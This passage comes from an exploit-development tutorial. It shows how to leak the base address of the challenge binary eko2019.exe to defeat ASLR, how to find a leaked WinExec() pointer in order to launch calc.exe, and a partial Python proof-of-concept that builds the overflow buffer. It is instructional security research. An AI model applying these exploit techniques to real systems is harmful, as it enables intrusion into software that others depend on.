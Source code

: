 <img src="{{ site.url }}{{ site.baseurl }}/images/BFS_41.png" alt="">

We execute the above instruction - and we see a virtual address has been loaded into RAX! This is presumably the base address of eko2019.exe.

<img src="{{ site.url }}{{ site.baseurl }}/images/BFS_42.png" alt="">

To verify this, let's check what the base address of eko2019.exe is in WinDbg.

<img src="{{ site.url }}{{ site.baseurl }}/images/BFS_44.png" alt="">

Awesome! We have successfully extracted the base virtual address of eko2019.exe and stored it in a variable on the remote client.

<img src="{{ site.url }}{{ site.baseurl }}/images/BFS_45.png" alt="">

This means now, that when we need to execute our code in the future - we can dynamically resolve our ROP gadgets via offsets - and ASLR will no longer be a problem! The only question remains - how are we going to execute any code?

Mom, The Application Is Still Leaking!
---

For this blog post, we are going to pop calc.exe to verify code execution is possible. Since we are going to execute calc.exe as our proof of concept, using the Windows API function [WinExec()](https://docs.microsoft.com/en-us/windows/win32/api/winbase/nf-winbase-winexec) makes the most sense to us. This is much easier than going through with a full [VirtualProtect()]() function call, to make our code executable - since all we will need to do is pop calc.exe.

Since we already have the ability to dynamically resolve all of eko2019.exe's virtual address space - let's see if we can find any addresses within eko2019.exe that leak a pointer to kernel32.dll (where `WinExec()` resides) or `WinExec()` itself.

As you can see below, eko2019.exe+0x9010 actually leaks a pointer to `WinExec()`!

<img src="{{ site.url }}{{ site.baseurl }}/images/BFS_52.png" alt="">

This is perfect, due to the fact we have a read primitive which extracts the value that a virtual address points to! In this case, eko2019.exe+0x9010 points to `WinExec()`. Again, we don't need to `push rcx` or access any special registers like the GS segment register - we just want to extract the pointer in RCX (which we will fill with eko2019.exe+0x9010). Let's update our proof of concept with a fourth request, to leak the address of `WinExec()` in kernel32.dll.

```python
import sys
import os
import socket
import struct
import time

# Defining sleep shorthand
sleep = time.sleep

# 16 total bytes
print "[+] Sending the header..."
exploit = "\x45\x6B\x6F\x32\x30\x31\x39\x00" + "\x90"*8

# 512 bytes + 16 byte header = 528 total bytes

# 512 byte offset to the byte we control
exploit += "\x41" * 512

# The GS segment register gives us access to the PEB at an offset of 0x60
exploit += "\x65"

# \x60 will be moved in gs:[rcx] (\x41's are padding)
exploit += "\x41\x41\x41\x41\x41\x41\x41\x60"
```